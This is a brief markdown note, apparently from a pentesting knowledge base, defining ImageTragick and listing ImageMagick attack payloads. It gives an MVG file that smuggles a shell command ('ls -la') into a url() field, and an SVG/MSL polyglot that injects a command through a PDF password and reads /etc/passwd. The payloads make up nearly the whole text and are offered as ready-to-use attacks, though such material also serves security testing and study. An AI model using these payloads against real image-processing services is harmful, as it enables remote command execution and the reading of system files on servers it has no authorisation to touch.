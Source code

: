 ## Definition
__ImageTragick__ are a set of attacks that can be run in the well-know [Imagemagick](<General Info/Tecnologias Web/Imagemagick.md>).

## Common attacks
- .MVG file attack: 
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```
- .SVG shell injection via PDF password (SVG MSL Polyglot file):
```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
	</image>
```

